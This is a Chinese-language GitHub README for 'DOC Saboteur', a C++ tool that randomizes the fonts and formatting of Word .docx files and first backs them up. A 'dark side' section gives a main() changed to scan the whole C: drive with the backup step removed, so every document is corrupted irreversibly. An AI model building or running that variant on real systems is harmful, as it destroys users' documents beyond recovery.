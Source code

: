 ## Switch Language / 切换语言

- [English](README_en.md)
- [简体中文](README.md)
---

# DOC Saboteur (文档破坏者)

## 简介

DOC Saboteur 是一个有趣且实用的工具，专门设计用于随机化Word文档(`*.docx`)的格式属性，包括`字体大小`、`字体颜色`、`字体加粗`和`字体倾斜`。这个工具非常适合需要测试文档处理软件对不同格式容错能力的开发者，或者任何对Word文档格式随机化感兴趣的用户。

## 功能

- **格式属性随机化**：自动扫描程序根目录(或指定目录)下的所有Word文档(`*.docx`)，并对每个文件的文本格式进行随机化处理.
- **文件处理**：
  - **不支持中文文件名**：程序将自动检测中文文件名并重命名为非中文字符串，以保证处理过程无误。
  - **自动备份**：在进行任何修改前，自动将源文件备份到C盘的`doc_saboteur_backup`目录下，确保原数据安全。

## 使用指南

1. 将Word文档(`*.docx`)放入程序根目录下(默认配置)。
2. 运行DOC Saboteur程序。
3. 程序会自动扫描根目录下的所有Word文档，并进行格式随机化处理。
4. 处理完成后，可以在程序根目录下找到被修改的文档。
5. 原始文件将被安全备份到C盘的`doc_saboteur_backup`目录下。

## 注意事项

1. 确保C盘的`doc_saboteur_backup`目录存在且有足够的空间存储备份文件。
2. 程序目前不支持直接处理文件名为中文的文档，但会自动进行重命名处理。
3. 在使用本程序时，请确保你有足够的权限访问和修改指定目录下的文件。

## 代码编译环境
- **系统环境**: `Windows10-x64`; `Visual Studio 2022`; `C++17`; 

- **所需的库**: `Pugixml`; `libzip`; `zlib`;

## 黑暗面
你只需修改`main()`函数中的两行代码就能使它变成一个非常恶意的程序.
1. 修改`std::vector<std::string> file_list = op.find_docx_files("./");`代码,`op.find_docx_files("./")`中的`"./"`表示程序根目录,你可以将其改为某个盘符,例如`C:/`,这样程序会遍历查找并破坏C盘下的所有的`*.docx`文件.
1. 将`if (op.copy_file(*iter, "C:/doc_saboteur_backup/" + *iter) == true)`注释掉,这行代码的作用是在破坏文档前将其备份到`C:/doc_saboteur_backup/`中,如果注释掉则程序不会备份文档,那么对您的文档的破坏将不可逆!!!

####  以下是一个示例:

```c++
int main() {
    std::cout << "DOC Saboteur - v0.1;\nPowered by RMSHE - 2024.03.15;\n" << std::endl;

    try {
        std::vector<std::string> file_list = op.find_docx_files("C:/");
        for (auto iter = file_list.begin(); iter != file_list.end(); ++iter) {
                std::filesystem::path _docxPath_ = op.renameIfChinese(*iter);

                // 转换为 std::string
                std::string docxPathString = _docxPath_.string();

                // 获取 const char* 类型
                const char *docxPath = docxPathString.c_str();
                const char *docXmlPath = "word/document.xml";

                std::cout << docxPath << std::endl;

                std::string xmlContent = op.readZipFile(docxPath, docXmlPath);

                // 随机化处理
                std::string modifiedXml = randomizeFontPropertiesEnhanced(xmlContent);
                op.writeZipFile(docxPath, docXmlPath, modifiedXml);

                std::cout << "文档处理完成:" + *iter << std::endl;
            }
    } catch (const std::exception &e) {
        std::cerr << "发生错误: " << e.what() << std::endl;

        system("pause");
        return 1;
    }

    system("pause");
    return 0;
}
```

